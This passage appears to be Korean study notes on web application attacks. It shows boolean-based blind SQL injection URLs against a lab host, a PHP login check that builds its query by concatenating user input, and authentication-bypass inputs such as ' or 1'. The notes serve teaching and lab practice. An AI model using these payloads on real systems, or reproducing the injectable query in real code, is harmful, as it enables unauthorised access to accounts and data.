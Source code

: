 ```
http://172.16.10.20/board/board_view.php?num=21%20and%201=2
                         참                              거짓


http://172.16.10.20/board/board_view.php?num=10%20and%201=1
                        거짓                             참
```

<br>

##### WAS 인증 우회 

![2022-10-26-79인증우회](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-79인증우회.jpg)

<br>

로그인 관련

```
member_login.php(ID/PASSWORD 입력) 
-> 
member_login_check.php(입력된 ID/PASSWORD 를 DB 접속하여 검증)
~~~
$strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";
$rs=mysql_query($strSQL,$conn);
$rs_arr=mysql_fetch_array($rs);

-- 반환값이 존재 하는가 ?
if($rs_arr){
```

![2022-10-26-80참거짓](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-80참거짓.jpg)

<br>

![2022-10-26-81쿼리문](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-81쿼리문.jpg)

```
```php
1) $strSQL="select * from member where u_id='".$id."' and u_pass='".$pw."';";

2) select * from member where u_id='$id' and u_pass='$pw'

3) select * from member where u_id='**' or '1**' and u_pass='**' or '1**'

id : ' or 1'
password : ' or '1
```

<br>

조건식 처리 순서

![2022-10-26-83엔드오아](../images/2022-10-26-애플리케이션 공격 유형/2022-10-26-83엔드오아.jpg)
